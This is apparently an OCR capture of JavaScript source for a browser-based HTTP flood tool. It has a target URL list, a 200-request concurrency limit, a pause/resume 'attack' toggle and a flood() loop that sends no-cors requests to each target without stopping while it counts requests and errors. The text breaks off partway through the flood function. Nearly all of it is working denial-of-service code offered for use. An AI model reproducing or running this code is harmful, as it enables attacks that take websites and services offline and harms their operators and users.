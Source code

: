 ```target list
 // target list
        var urls = [
            'http://example.ru/',
            'https://0.0.0.0:443/',
            'http://0.0.0.0:80/',
        ];

        // initialize variables
        var targets = urls.reduce((o, key) => ({ ...o, [key]: {number_of_requests: 0, number_of_errored_responses: 0}}), {})
        var statRow = document.querySelector("#stats > .row");
        var myModal = new bootstrap.Modal(document.getElementById('exampleModal'), {});
        var CONCURRENCY_LIMIT = 200;
        var queue = [];
        var attack = false;
        var totalrequests = 0;
        var totalerrors = 0;

        function togglePause () {
            if (attack) {
                attack = false;
                document.querySelector("div.desc .btn").innerText = "Resume";
            } else {
                attack = true;
                document.querySelector("div.desc .btn").innerText = "Pause";
                for (var i=0; i<urls.length; i++) {
                    flood(i);
                }
            }
        }

        async function fetchWithTimeout(resource, options) {
            const controller = new AbortController();
            const id = setTimeout(() => controller.abort(), options.timeout);
            return fetch(resource, {
                signal: controller.signal,
                mode: 'no-cors'
            }).then((response) => {
                clearTimeout(id);
                return response;
            }).catch((error) => {
                clearTimeout(id);
                throw error;
            });
        }

        async function sleep(ms) {
            return new Promise(r => setTimeout(r, ms));
        }         

        async function flood(n) {
            const url = urls[n];
            const target = targets[url];

            while (attack) {
                if (queue.length > CONCURRENCY_LIMIT) {
                    await queue.shift();
                }
                queue.push(
                    fetchWithTimeout(url, { timeout: 2000 })
                        .catch((error) => {
                            if (error.code === 20 /* ABORT */) {
                                return;
```